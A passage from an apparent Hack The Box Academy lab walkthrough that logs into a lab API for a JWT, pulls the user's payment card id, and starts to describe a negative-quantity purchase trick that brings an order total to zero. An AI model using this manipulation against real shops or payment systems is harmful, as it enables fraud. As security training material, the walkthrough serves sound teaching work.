 ```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-yeqp4pid9t]─[~]
└──╼ [★]$ http POST http://94.237.48.48:47552/api/users/login email=htb-student@academy.htb password=HTB_@cademy_student! | jq

{
    "message": "Logged in!", 
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsIm5hbWUiOiJIVEIgU3R1ZGVudCIsInVzZXJuYW1lIjoiaHRiLXN0dWRlbnQiLCJlbWFpbCI6Imh0Yi1zdHVkZW50QGFjYWRlbXkuaHRiIiwicmVnaXN0cmF0aW9uRGF0ZSI6IjIwMjMtMDEtMDFUMDA6MDA6MDAuMDAwWiIsImN1YmVzIjozMCwic3Vic2NyaXB0aW9uIjp7InVzZXJJZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsInN1YnNjcmlwdGlvbk5hbWUiOiJmcmVlIiwiZXhwaXJlc0F0IjoiMjEwMC0wMS0wMVQwMDowMDowMC4wMDBaIn0sImlhdCI6MTY5NTg4MjIzNywiZXhwIjoxNjk1OTY4NjM3fQ.9qYthhT41PoLz5BxqmaApopuNXU7gYxgE4KhIXoUIZ4"
}
```

Having attained a JWT token, students then need to get the card details of the current user (most importantly, its `id`) by sending a GET request to the `/api/payment/cards` endpoint (mapped to `src/src/controllers/payment-controller.js`, lines 8-43):

Code: shell

```shell
http GET http://STMIP:STMPO/api/payment/cards --auth-type=jwt --auth="JWT" | jq
```

```
┌─[eu-academy-1]─[10.10.14.72]─[htb-ac-413848@htb-yeqp4pid9t]─[~]
└──╼ [★]$ http GET http://94.237.48.48:47552/api/payment/cards --auth-type=jwt --auth="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsIm5hbWUiOiJIVEIgU3R1ZGVudCIsInVzZXJuYW1lIjoiaHRiLXN0dWRlbnQiLCJlbWFpbCI6Imh0Yi1zdHVkZW50QGFjYWRlbXkuaHRiIiwicmVnaXN0cmF0aW9uRGF0ZSI6IjIwMjMtMDEtMDFUMDA6MDA6MDAuMDAwWiIsImN1YmVzIjozMCwic3Vic2NyaXB0aW9uIjp7InVzZXJJZCI6IjY0OWYyODkzY2JhOGQwZDZlODQxMjE4MiIsInN1YnNjcmlwdGlvbk5hbWUiOiJmcmVlIiwiZXhwaXJlc0F0IjoiMjEwMC0wMS0wMVQwMDowMDowMC4wMDBaIn0sImlhdCI6MTY5NTg4MjIzNywiZXhwIjoxNjk1OTY4NjM3fQ.9qYthhT41PoLz5BxqmaApopuNXU7gYxgE4KhIXoUIZ4" | jq

{
    "cards": [
        {
            "balance": 5, 
            "cvc": "123", 
            "endsWith": "3456", 
            "expiryMonth": "12", 
            "expiryYear": "2030", 
            "id": "6515120a25456d39eeea4eaf", 
            "name": "HTB Student", 
            "userId": "649f2893cba8d0d6e8412182"
        }
    ]
}
```

With the `id` `6515120a25456d39eeea4eaf` of the card attained, students need to exploit the unexpected input vulnerability and perform two 1000 cubes purchases, making the `amount` value of the second entry `-1`, which results in a total 0:
